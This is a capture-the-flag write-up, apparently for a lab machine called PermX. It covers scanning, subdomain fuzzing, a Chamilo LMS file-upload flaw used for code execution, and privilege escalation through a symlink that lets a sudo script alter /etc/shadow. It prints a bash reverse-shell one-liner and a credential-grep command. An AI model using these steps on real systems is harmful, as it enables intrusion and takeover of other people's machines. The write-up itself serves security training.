The assessment began with a full TCP port scan to identify exposed services on the target host.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN permx_scan 10.10.11.23The scan revealed two open ports: 22 (SSH) and 80 (HTTP).

The domain name was added to the local /etc/hosts file to properly resolve the virtual host.
Directory and application enumeration was performed against the web service.

Using WhatWeb, the underlying technologies of the web application were identified.
whatweb http://permx.htb:80/The output indicated an Apache server hosting an e-learning platform.
Further enumeration focused on discovering virtual hosts and subdomains.
ffuf -u http://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -sTwo subdomains were discovered, one of which was lms.permx.htb.
Accessing this subdomain revealed a login panel.

The application was identified as Chamilo LMS version 1.
This version of Chamilo is known to be vulnerable to an unauthenticated arbitrary file upload leading to remote code execution.
A public proof of concept describing this vulnerability was found.
Based on the proof of concept, a malicious PHP file was created to achieve remote code execution.

The file was uploaded to the server using a crafted request with curl.

A request was sent to the uploaded file to confirm that code execution was working.

After confirming execution, a reverse shell payload was prepared.
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"The payload was URL-encoded to ensure correct interpretation when sent through the request.
A reverse shell was successfully obtained, running as the www-data user.

Local enumeration revealed the existence of another user account named mtz, although direct access was not possible at this stage.

The next objective was to pivot to the mtz user in order to escalate privileges.
While exploring the filesystem, the directory /var/www/chamilo/app/config was identified as potentially containing sensitive information.
To locate credentials, all files in the directory were searched for lines containing the word pass.
cat * | grep "pass"This revealed database credentials stored in configuration files.

Password reuse was attempted using these credentials.
The reused password allowed successful SSH authentication as the user mtz.

Once logged in as mtz, sudo privileges were enumerated.

The output showed that a custom script could be executed with root privileges.
The script was inspected to understand its behavior.

The script was designed to modify permissions of files located under /home/mtz/*.
An initial idea was to directly change permissions on /etc/shadow, but this was not allowed.
Instead, a symbolic link was created inside the home directory pointing to the target file.

By leveraging the script, permissions on the linked /etc/shadow file were modified.
The shadow file was then edited to remove the root password hash.


With the root password removed, it was possible to switch to the root user without authentication.
